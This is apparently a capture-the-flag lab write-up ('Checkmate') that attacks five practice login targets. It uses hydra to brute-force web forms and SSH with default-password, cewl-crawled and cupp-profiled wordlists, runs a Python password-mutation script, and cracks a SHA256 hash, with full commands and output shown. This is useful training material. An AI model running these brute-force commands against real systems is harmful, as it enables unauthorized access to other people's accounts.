

# Checkmate



Once we reach to port 5000, we can see there are a total of 5 levels.


## Level 1

We will start with level 1 (Port `5001`), we can see firewall login panel. According to the hints, we know it is using the default credentials. The login panel reveals no default credentials.


I initially tried some default password like `admin`, `password`, and `test1234`, but none of them work

So I search for password list for default passwords, and found this useful [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.txt)

We will use `hydra` for the password brute forcing. It has the following flags:

- `-l`: Specify the login name (`-L` to specify the username file)
- `-P`: Specify the password list (`-p` to specify a specific password)
- `-s`: Specify the specific port (In this case it is `5001`)
- `http-form-post`/ `http-post-form`: Specify the target is a HTTP POST form. Read more [here](https://labex.io/tutorials/hydra-explore-hydra-module-specific-options-550767)
    - use `:` as the delimiter, so it is divided into three parts
        - First part: The endpoint (`/login`)
        - Second part: The inputs, `username` and `password` are fields from the form. And `USER` and `PASS` are governed by the `-l` and `-P` flags
        - Third part: Success(`S`) or Fail(`F`) message.  `S=success` will tell hydra to stop when it sees the string `success`
- `-vV`: Verbose Mode (`-V` will show the login attempts)
- `-f`: Ends the search after a successful login

You can also take a look at this [Writeup](https://github.com/jayeshjawade/Brute-Force-Using-Hydra-On-Login-Page-)

With the above flags, we can craft a full command, which will be `hydra -l admin -P pass.txt -s 5001 firewall.thm http-form-post "/login:username=^USER^&password=^PASS^:S=success" -vV -f`

```bash
root@ip-xx-xx-xx-xx:~# hydra -l admin -P pass.txt -s 5001 firewall.thm http-form-post "/login:username=^USER^&password=^PASS^:S=success" -vV -f

[DATA] attacking http-post-form://firewall.thm:5001/login:username=^USER^&password=^PASS^:S=success
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
...
[ATTEMPT] target firewall.thm - login "admin" - pass "12345" - 37 of 1335 [child 14] (0/0)
...
[VERBOSE] Page redirected to http://firewall.thm:5001/
...
[5001][http-post-form] host: firewall.thm   login: admin   password: 12345
[STATUS] attack finished for firewall.thm (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

Now we know the credentials are `admin:12345`, we can login in the `firewall.thm`


## Level 2

In the second level, this time it uses common company keywords as passwords, which we can find the password if we crawl the website hard enough.


Again, there is no hints or info in the login page


To automate this, we can use `cewl` to do the hard work for us. The default depth should be good enough.

```bash
root@ip-xx-xx-xx-xx:~# cewl http://jobs.thm:5002/login -w cewl.txt

~# cat cewl.txt
Security
Apply
Engineering
Careers
time
Full
Cloud
excellence
Innovation
Digital
...
```

Similar as before, we can use Hydra to brute force the password.

```bash
root@ip-xx-xx-xx-xx:~# hydra -l marco -P cewl.txt -s 5002 jobs.thm http-form-post "/login:username=^USER^&password=^PASS^:S=success" -vV -f

[DATA] attacking http-post-form://jobs.thm:5002/login:username=^USER^&password=^PASS^:S=success
...
[ATTEMPT] target jobs.thm - login "marco" - pass "excellence" - 8 of 109 [child 7] (0/0)
...
[VERBOSE] Page redirected to http://jobs.thm:5002/profile
...
[5002][http-post-form] host: jobs.thm   login: marco   password: excellence
[STATUS] attack finished for jobs.thm (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

For the second level, the credentials are `marco:excellence`, and we can login and see the profile of `Marco Bianchi`


## Level 3

This time, we need to derive the password using the above info


The login panel reveals no info


To create a customized password list, we can use [Cupp](https://github.com/mebus/cupp). use the `-i` flag to enter the interactive mode, you will see we can enter the details without any modification, indicating we are in the correct path

```bash
root@ip-xx-xx-xx-xx:~# cupp -i
 ___________ 
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\   
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]

[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: Marco
> Surname: Bianchi
> Nickname: marky
> Birthdate (DDMMYYYY): 14021995

> Partners) name: 
> Partners) nickname: 
> Partners) birthdate (DDMMYYYY): 

> Child's name: 
> Child's nickname: 
> Child's birthdate (DDMMYYYY): 

> Pet's name: 
> Company name: 

> Do you want to add some key words about the victim? Y/[N]: 
> Do you want to add special chars at the end of words? Y/[N]: 
> Do you want to add some random numbers at the end of words? Y/[N]:
> Leet mode? (i.e. leet = 1337) Y/[N]: 

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to marco.txt, counting 2816 words.
[+] Now load your pistolero with marco.txt and shoot! Good luck!
```

Now we can use the cupp password list to get the password right?

```bash
root@ip-xx-xx-xx-xx:~# hydra -l marco -P marco.txt -s 5003 social.thm http-form-post "/login:username=^USER^&password=^PASS^:Ssuccess" -vV -f

[DATA] attacking http-post-form://social.thm:5003/login:username=^USER^&password=^PASS^:Ssuccess
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
...
[ATTEMPT] target social.thm - login "marco" - pass "021995" - 4 of 2816 [child 3] (0/0)
...
[5003][http-post-form] host: social.thm   login: marco   password: 021995
[STATUS] attack finished for social.thm (valid pair found)
1 of 1 target successfully completed, 1 valid password found

```

If we use `marco:021995` to try to login, we will see that we cannot login successfully. In fact, there is no page redirection during the attack. It might caused by the incorrect successful message, which I initially thought only successful login should have the word ‘success’.

To launch this attack, I use Caido to do the password brute force, and got the correct credentials. `marco:Bianchi2495`


And we can login to Marco’s social media account


## Level 4

Level 4 is about SHA256 hash


Viewing the source code, we know the image is stored as `d34a569ab7aaa54dacd715ae64953455d86b768846cd0085ef4e9e7471489b7b.png`


Using [Hashes.com](https://hashes.com/en/decrypt/hash), we get the original filename: `family`


## Level 5

Finally, it is about SSH login


In a post, Marco reveals how he create a ‘secure’ password


<aside>
💡

If you are smart enough, you can take those five tag and test them out… which unfortunately I did the hard way

</aside>

When a saw the company keyword, i remember the Cewl word list, and I first only include `1995!`, but failed, so I also include `2005!`

```python
with open('cewl.txt', 'r') as f:
    with open ('password.txt', 'a') as new:
        for line in f:
            new.write(line.strip().capitalize()+'1995!\n')
            new.write(line.strip().capitalize()+'2024!\n')
```

With this, launch the Hydra attack!

```bash
root@ip-xx-xx-xx-xx:~# hydra -l marco -P password.txt checkmate.thm ssh -vV
...
[DATA] attacking ssh://checkmate.thm:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://marco@xx.xx.xxx.xx:22
[INFO] Successful, password authentication is supported by ssh://xx.xx.xxx.xx:22
[ATTEMPT] target checkmate.thm - login "marco" - pass "Security1995!" - 1 of 218 [child 0] (0/0)
[ATTEMPT] target checkmate.thm - login "marco" - pass "Security2024!" - 2 of 218 [child 1] (0/0)
[ATTEMPT] target checkmate.thm - login "marco" - pass "Apply1995!" - 3 of 218 [child 2] (0/0)
[ATTEMPT] target checkmate.thm - login "marco" - pass "Apply2024!" - 4 of 218 [child 3] (0/0)
[ATTEMPT] target checkmate.thm - login "marco" - pass "Engineering1995!" - 5 of 218 [child 4] (0/0)
[ATTEMPT] target checkmate.thm - login "marco" - pass "Engineering2024!" - 6 of 218 [child 5] (0/0)
[ATTEMPT] target checkmate.thm - login "marco" - pass "Careers1995!" - 7 of 218 [child 6] (0/0)
[ATTEMPT] target checkmate.thm - login "marco" - pass "Careers2024!" - 8 of 218 [child 7] (0/0)
[ATTEMPT] target checkmate.thm - login "marco" - pass "Time1995!" - 9 of 218 [child 8] (0/0)
[ATTEMPT] target checkmate.thm - login "marco" - pass "Time2024!" - 10 of 218 [child 9] (0/0)
[ATTEMPT] target checkmate.thm - login "marco" - pass "Full1995!" - 11 of 218 [child 10] (0/0)
[ATTEMPT] target checkmate.thm - login "marco" - pass "Full2024!" - 12 of 218 [child 11] (0/0)
[ATTEMPT] target checkmate.thm - login "marco" - pass "Cloud1995!" - 13 of 218 [child 12] (0/0)
[ATTEMPT] target checkmate.thm - login "marco" - pass "Cloud2024!" - 14 of 218 [child 13] (0/0)
[ATTEMPT] target checkmate.thm - login "marco" - pass "Excellence1995!" - 15 of 218 [child 14] (0/0)
[ATTEMPT] target checkmate.thm - login "marco" - pass "Excellence2024!" - 16 of 218 [child 15] (0/0)
[ERROR] could not connect to target port 22: Socket error: Connection reset by peer
[ERROR] ssh protocol error
[ATTEMPT] target checkmate.thm - login "marco" - pass "Innovation1995!" - 17 of 219 [child 11] (0/1)
[22][ssh] host: checkmate.thm   login: marco   password: Security2024!
```

With this, we learn the credentials are `marco:Security2024!`, and we can login SSH

```bash
root@ip-xx-xx-xx-xx:~# ssh marco@checkmate.thm
marco@checkmate.thm's password: 
...
marco@tryhackme-2404:~$ ls
marco@tryhackme-2404:~$ whoami
marco
marco@tryhackme-2404:~$ id
uid=1001(marco) gid=1001(marco) groups=1001(marco),100(users)
```
